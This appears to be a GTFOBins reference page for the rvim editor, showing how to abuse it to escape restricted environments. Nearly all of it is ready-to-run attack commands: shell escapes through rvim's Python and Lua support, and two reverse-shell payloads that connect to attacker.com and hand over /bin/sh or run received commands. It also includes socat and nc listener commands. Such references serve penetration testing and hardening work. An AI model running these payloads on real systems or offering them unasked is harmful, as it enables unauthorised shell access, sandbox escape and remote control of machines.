 # GTFOBin: rvim

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.

```
rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `rvim` is compiled with Lua support.

```
rvim -c ':lua os.execute("reset; exec sh")'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
rvim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
vim.command(":q!")'
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
rvim -c ':lua local s=require("socket"); local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  while true do
    local r,x=t:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));t:send(b);
  end;
  f:close();t:close();'
```
